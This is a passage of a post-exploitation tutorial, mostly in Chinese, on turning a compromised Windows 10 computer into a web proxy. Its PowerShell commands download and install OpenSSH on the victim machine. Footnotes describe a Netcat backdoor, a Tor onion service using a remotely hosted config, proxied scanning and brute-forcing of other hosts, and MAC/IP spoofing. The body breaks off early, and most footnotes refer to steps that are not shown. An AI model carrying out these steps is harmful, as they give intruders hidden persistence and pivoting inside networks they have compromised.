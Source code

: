 ## How to Turn Compromised Windows PCs into Web Proxies [^1]

### Why Would Someone Do This to My Computer?

- 入侵者：受感染的设备将充当渗透系统，允许攻击者瞄准网络上的其他机器
- 安全人员：直接从受感染设备使用[Nikto](https://null-byte.wonderhowto.com/how-to/scan-for-vulnerabilities-any-website-using-nikto-0151729/)，[Nmap](https://null-byte.wonderhowto.com/collection/nmap/)，[Patator](https://tools.kali.org/password-attacks/patator)，[curl](https://www.geeksforgeeks.org/curl-command-in-linux-with-examples/)和[TheHarvester](https://null-byte.wonderhowto.com/how-to/scrape-target-email-addresses-with-theharvester-0176307/)等工具通常具有挑战性。但是使用代理，并且通过Windows 10设备使用这些工具，从而为实际转向其他设备提供了许多机会

### Attack Scenario Requirements

- **远程访问**：本文假设已建立某种程度的远程访问
- **管理员权限**：如果目标Windows 10操作系统上未安装OpenSSH，则需要管理员（即root）权限才能安装和设置。其中某些较新版本的Windows 10已安装并运行了SSH服务器
- **帐户密码**：用户的帐户密码是设置登录SSH服务器所必需的，如果没有可以远程创建新用户，或者将OpenSSH服务器配置为允许没有密码的登录。但最好是Windows 10 管理员账号和密码

### Important Note [^2]

### Is OpenSSH Already Installed & Running? [^3]

`> ls "C:\Program Files\OpenSSH\"`

`> Get-NetTCPConnection -State Listen` [^4]

`> netstat -ba` [^5]

`> Get-Process | findstr sshd`

1. Set Up SSH on the Target Windows 10 Computer

   - Download the OpenSSH Installer Script

     ```powershell
     # 执行Invoke-WebRequest（iwr）下载OpenSSH二进制文件之前，必须使用以下命令定义SecurityProtocol
     > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
     > iwr https://github.com/PowerShell/Win32-OpenSSH/releases/download/v7.9.0.0p1-Beta/OpenSSH-Win64.zip -o $env:temp\OpenSSH-Win64.zip
     ```

     

   - Unzip the OpenSSH Archive

     `> Expand-Archive -Path "$env:temp\OpenSSH-Win64.zip" -DestinationPath 'C:\Program Files\OpenSSH' -Force`

   - Execute the OpenSSH Install Script

     `> & "C:\Program Files\OpenSSH\OpenSSH-Win64\install-sshd.ps1"`

   - Start the OpenSSH Service


[^1]: 拥有对Windows 10计算机的特权访问权限的入侵者可以将其配置为充当Web代理，从而允许攻击者通过受感染的计算机定位网络上的设备和服务。探测和攻击都来自Windows 10计算机，因此很难检测到攻击者的实际位置。本指南中使用Tor代理，但是像[ngrok](https://ngrok.com/)和[Serveo](https://serveo.net/)这样的其他工具可能会起到替代作用，但是这些服务尚未经过测试，主要是因为Tor连接是加密和私有的
[^2]: 在本指南中，以`>`开头的代码块表示该命令应该在Windows 10系统上使用PowerShell执行（即Netcat后门）。以`〜$`开头的代码块表示执行Kali Linux命令
[^3]: SSH 服务器与大多数Windows 10版本中的SSH 客户端不同。如果已经安装了OpenSSH，则可以在没有管理员（root）权限的情况下执行以下大多数攻击。但是如果未安装OpenSSH，则需要管理员权限才能安装它
[^4]: 因为可以将给定服务的默认端口号更改为任意值，所以输出不是100％正确
[^5]: 使用`netstat`，可以识别使用给定端口的服务
[^6]: 在`ls`输出中，注意到没有 [torrc](https://2019.www.torproject.org/docs/faq.html.en#torrc) 配置文件，它其中包含Tor应如何配置的说明。而此时我们希望Tor创建一个新的洋葱服务地址，当使用`echo`和其他PowerShell文件创建命令创建torrc文件时，会发生一些恼人的[换行错误](https://stackoverflow.com/questions/9280591/avoid-newline-in-echo)。最终选择在远程服务器上托管所需的torrc文件，只需使用PowerShell下载即可
[^7]: 执行命令后等待 Netcat 终端读取“Bootstrapped 100％：Done”，这表明它已经正常启动，按键盘上的*Enter* 键返回交互式 Netcat shell
[^8]: Tor启动后，将创建一个名为“HS”的新目录。在此目录中可以找到包含洋葱地址的主机名文件
[^9]: 一旦创建SOCKS5代理，许多人可能会尝试通过Windows 10计算机执行Nmap扫描。但Nmap 对内置的[代理功能支持有限](https://security.stackexchange.com/questions/120708/nmap-through-proxy/120723#120723)。即使与代理链配合使用，也不会支持所有Nmap的扫描类型
[^10]: [Curl](https://linux.die.net/man/1/curl) 是一个功能强大的命令行工具，用于创建不同类型的Web请求，支持许多不同的协议和功能。它可用于枚举网络上设备上找到的Web服务器类型。与其他许多工具不同，curl具有内置的SOCKS5支持，可以使用`--proxy`选项调用
[^11]: Patator 是一个命令行强制执行工具。使用代理链，Patator可用于通过Windows 10计算机强制执行服务。虽然未经测试，但同样的语法可以与其他强力工具如 Hydra 和 Medusa 一起使用
[^12]: TheHarvester 是一个信息收集工具。它具有执行虚拟主机验证，DNS枚举，反向域搜索和IP查找以及进行 Shodan 查询的功能
[^13]: Nikto 是一个简单的Web服务器扫描程序，它可以检查网站并报告发现的漏洞
[^14]: 某些情况下，可以通过MAC和IP地址定义黑名单和白名单规则方法来安全的访问Web服务。例如，特定路由器将仅允许某些Windows 10计算机访问路由器的网关.。但是可以伪造Kali的MAC和IP地址来诱骗路由器让我们查看网关。同时也可以使用SSH代理来实现相同的目标
[^15]: 需要注意的是，这只表明攻击者可以使用受感染的计算机作为代理的一种方式。在本文的早期概念中，目标的路由器和Windows 10防火墙被修改为允许端口转发和远程访问。这也将允许攻击者从世界上任何地方访问SSH服务器。此外，可能并不总是需要管理员权限。例如，Tor可以在没有特殊权限的情况下下载和使用，并且可以配置为将请求转发到网络上的任何服务或端口，而无需使用SSH服务器或SOCKS5代理
[^16]: 如果攻击者正在使用Tor，则可以在 [ExoneraTor](https://metrics.torproject.org/exonerator.html)上找到Tor服务器。同样，在Wireshark捕获中可以轻松检测到 Netcat 流量
[^17]: 这种解决方案并不总是完全有效，因为进程名称可以更改或欺骗，但是懒惰的入侵者可能会将这些文件名称保留为默认名称（即 “tor.exe”）